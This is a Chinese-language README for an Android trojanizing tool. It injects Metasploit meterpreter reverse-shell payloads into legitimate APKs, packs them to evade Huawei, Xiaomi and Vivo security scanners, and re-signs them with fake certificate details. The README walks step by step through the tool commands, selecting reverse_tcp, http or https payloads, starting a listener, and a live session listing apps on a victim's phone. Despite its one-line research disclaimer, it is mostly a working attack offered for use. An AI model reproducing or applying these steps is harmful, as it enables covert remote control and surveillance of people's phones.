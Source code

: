 # 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。


## 重点说明



* 项目目前由于加固脚本问题, 目前只支持单classes.dex文件操作.

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.



## 项目依赖



* 本项目参考以下项目

* [Java层DEX一键加固脚本](https://github.com/yongyecc/apksheller)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)



## 使用



1. 使用Linux或者macos主机, 安装python3, openjdk8, metasploit-framework.
2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh
➜  ~ cd 520apkhook
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK
......

// --host 指定msf远控的IP
// --lport 指定msf远控端口
// -n 指定被注入的apk文件路径
```

3. 生成中需要指定msf payload类型

```sh
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK

[*] 检查 : msfvenom
[+] msfvenom - OK

   ====================================
   [*] Available Types of Payload
   ====================================
   (1) android/meterpreter/reverse_tcp
   (2) android/meterpreter/reverse_http
   (3) android/meterpreter/reverse_https

[?] 选择msf payload (1/2/3): 1
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10192 bytes
......
```

4. apk签名时需要输入证书的相关信息.

```sh
......
[*] 将加固后的dex文件替换apk中的class dex!
'classes.dex'...
[+] 插入成功 !
[+] app加固完成

[*] 创建app签名文件!
您的名字与姓氏是什么?
 [Unknown]:  zhouhongyi
您的组织单位名称是什么?
 [Unknown]:  360
您的组织名称是什么?
 [Unknown]:  qihu360
您所在的城市或区域名称是什么?
 [Unknown]:  beijing
您所在的省/市/自治区名称是什么?
 [Unknown]:  beijing
该单位的双字母国家/地区代码是什么?
 [Unknown]:  china
CN=zhouhongyi, OU=360, O=qihu360, L=beijing, ST=beijing, C=china是否正确?
 [否]:  y
......
```



5. 在生成apk文件后, 目录下会产生`Final_Infected.apk`和`handler.rc`

```sh
➜  520apkhook ls
Final_Infected.apk base.apk           hook.py            libs
Readme.md          handler.rc         images
```



6. 使用msfconsole加载handler.rc进行服务端监听

```sh
➜  520apkhook msfconsole -r handler.rc
# cowsay++
____________
< metasploit >
------------
      \   ,__,
       \  (oo)____
          (__)    )\
             ||--|| *


      =[ metasploit v6.0.42-dev-b177452c898ad956be8540a40c805bf52310c234]
+ -- --=[ 2124 exploits - 1137 auxiliary - 361 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set payload android/meterpreter/reverse_tcp
payload => android/meterpreter/reverse_tcp
resource (handler.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (handler.rc)> set LPORT 1433
LPORT => 1433
resource (handler.rc)> set exitonsession false
exitonsession => false
resource (handler.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 0.0.0.0:1433
msf6 exploit(multi/handler) >
......
```

7. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![show](images/show.webp)

8. 成功后, 可以在msf中进行远程控制

```sh
msf6 exploit(multi/handler) > sessions

Active sessions
===============

 Id  Name  Type                        Information         Connection
 --  ----  ----                        -----------         ----------
 1         meterpreter dalvik/android  u0_a53 @ localhost  192.168.0.21:1433 -> 192.168.0.68:65133 (192.168.16
                                                           4.194)

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost
OS          : Android 11 - Linux 5.4.61-********+ (armv81)
Meterpreter : dalvik/android
meterpreter > ls
No entries exist in /data/user/0/com.zhangy.vphone/files
meterpreter > app_list
Application List
================

 Name                                Package                               Running  IsSystem
 ----                                -------                               -------  --------
 Android System WebView              com.android.webview                   false    true
 Android 系统                          android                               false    true
 Android动态壁纸                         com.android.wallpaper                 false    true
 Arm Pro                             armadillo.studio                      false    false
 Black Hole                          com.android.galaxy4                   false    true
 Bluetooth MIDI Service              com.android.bluetoothmidiservice      false    true
 Call Log Backup/Restore             com.android.calllogbackup             false    true
 CaptivePortalLogin                  com.android.captiveportallogin        false    true
 HTML 查看程序                           com.android.htmlviewer                false    true
 Intent Filter Verification Service  com.android.statementservice          false    true
 KK谷歌助手                              io.kkzs                               false    true
 LOL GG                              com.hpdjyxsziq.sqmezcbpyf             false    false
 Live Wallpaper Picker               com.android.wallpaper.livepicker      false    true
 MT管理器                               bin.mt.plus                           false    false
 ......
```



## 不同手机安全管家对app安装时检测结果



* 华为

![huawei](images/huawei.jpg)

* 小米

![mi](images/mi.png)

* VIVO

![oppo](images/vivo.jpg)
